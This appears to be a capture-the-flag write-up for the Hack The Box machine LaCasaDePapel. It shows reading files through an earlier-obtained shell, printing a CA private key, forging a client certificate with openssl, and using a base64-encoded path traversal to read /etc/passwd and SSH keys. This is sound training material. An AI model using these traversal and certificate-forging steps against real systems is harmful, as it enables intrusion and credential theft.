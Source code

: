 If we access to http://10.10.10.131/ we see a qr and an email field. After download google authenticator and introduce the token and email, pressing the "GET FREE TRIAL" button we don't get any email. This is obvious cause the htb machines don't have internet connection

![[Pasted image 20230927095053.png]]

Inspecting the shell retrieved in the FTP service, we found the email generated in the following directory

```bash
scandir('/home/oslo/Maildir/.Sent/cur');
=> [
     ".",
     "..",
     "1695800657034.M75459P68418V0000000000019966I0000000008bab77.lacasadepapel.htb,S=430,2,S",
   ]
readfile('/home/oslo/Maildir/.Sent/cur/1695800657034.M75459P68418V0000000000019966I0000000008bab77.lacasadepapel.htb,S=430,2,S');
Content-Type: text/plain; format=flowed
From: dali@lacasadepapel.htb
To: test@test.com
Content-Transfer-Encoding: 7bit
Date: Wed, 27 Sep 2023 07:44:17 +0000
Message-Id: <1695800657052-e8e43d61-c510bf14-b60ba3b6@lacasadepapel.htb>
MIME-Version: 1.0

Welcome to our community!
Thanks for signing up. To continue, please verify your email address by 
clicking the url below.
https://lacasadepapel.htb/a93a8ea0-5d09-11ee-ac80-7706e7b893d1
```

Accessing the url we found a certificate generator

![[Pasted image 20230927095341.png]]

We found a ca.key file in nairobi home folder

```bash
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
readfile('/home/nairobi/ca.key');
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----
```

Introduce it in the CA text field and generate the certificate to retrieve a crt file

![[Pasted image 20230927100318.png]]

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/LaCasaDePapel-10.10.10.131]
└─$ openssl pkcs12 -export -out certificate.pfx -inkey ftp-nairobi-ca.key -in web-generated-ca.crt -certfile web-generated-ca.crt 
Enter Export Password:
Verifying - Enter Export Password:

┌──(kali㉿kali)-[~/Documents/Boxes/LaCasaDePapel-10.10.10.131]
└─$ ls
certificate.pfx  ftp-nairobi-ca.key  web-generated-ca.crt
```

After import the pfx certificate in firefox, we access to https://10.10.10.131/ and we will be prompted to select our certificate to identify

![[Pasted image 20230927100748.png]]

And we are in

![[Pasted image 20230927100808.png]]

If we check the url redirect we can see the path is base64

![[Pasted image 20230927114107.png]]

So encode the file we want to retrieve

![[Pasted image 20230927114407.png]]

And going to the url (https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==) we retrieve the file `/etc/passwd`. Here it is, filtered by potential bash users

```plain/text
root:x:0:0:root:/root:/bin/ash
operator:x:11:0:operator:/root:/bin/sh
postgres:x:70:70::/var/lib/postgresql:/bin/sh
dali:x:1000:1000:dali,,,:/home/dali:/usr/bin/psysh
berlin:x:1001:1001:berlin,,,:/home/berlin:/bin/ash
professor:x:1002:1002:professor,,,:/home/professor:/bin/ash
```

After some test we found that we are logged as berlin user

![[Pasted image 20230927114806.png]]

Lets retrieve ssh keys

![[Pasted image 20230927114928.png]]

And we got id_rsa file, but trying to login with ssh it asks for password, so the key is not working. Lets try other users (pick the ones retrieved before with `/etc/passwd`). 

